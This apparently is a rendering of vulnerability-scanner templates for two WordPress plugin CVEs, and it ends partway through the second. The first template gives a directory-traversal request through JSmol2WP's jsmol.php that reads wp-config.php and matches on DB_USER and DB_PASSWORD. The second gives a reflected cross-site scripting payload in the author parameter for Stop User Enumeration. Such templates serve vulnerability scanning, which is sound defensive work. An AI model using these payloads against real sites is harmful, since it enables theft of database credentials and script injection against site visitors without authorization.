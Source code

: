 # JSmol2WP \<= 1.07 - Directory Traversal
## Description
- An issue was discovered in the JSmol2WP plugin 1.07 for WordPress. There is an arbitrary file read vulnerability via ../ directory traversal in query=php://filter/resource= in the jsmol.php query string. This can also be used for SSRF.

- severity - high
- tags - wp,wp-plugin,wordpress,jsmol2wp,wpscan,cve,cve2018,traversal
## Requests
- Method - GET
### URL
- {{BaseURL}}/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-config.php
### Matchers

**Type - word**
- part - body
- words
    1. 'DB_USER',
    2. 'DB_PASSWORD'
- condition - and

**Type - word**
- part - header
- words
    1. text/plain

**Type - status**
- status
    1. 200

---
# WordPress Stop User Enumeration \<=1.3.7 - Cross-Site Scripting
## Description
- WordPress Stop User Enumeration 1.3.7 and earlier are vulnerable to unauthenticated reflected cross-site scripting.
- severity - medium
- tags - wpscan,cve,cve2017,wordpress,xss,wp-plugin
## Requests
- Method - GET
### URL
- {{BaseURL}}/?author=1%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E
### Matchers
